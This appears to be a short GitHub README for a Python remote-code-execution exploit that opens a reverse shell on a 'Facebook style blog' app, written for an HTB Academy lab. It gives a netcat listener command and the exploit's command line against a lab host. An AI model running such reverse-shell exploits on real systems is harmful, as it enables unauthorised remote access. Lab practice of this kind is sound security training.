 # facebook-style-blog-rce
python based revshell exploit for facebook style blog for HTB academy shell module.

# Usage: 
start listner in one terminal window : 

nc -lnvp 4444

on another terminal window, execute below command : 

python3 facebook_styled_blog_rce.py http://blog.inlanefreight.local -u <username> -p <Password> --lhost <Listening Address> --lport 4444
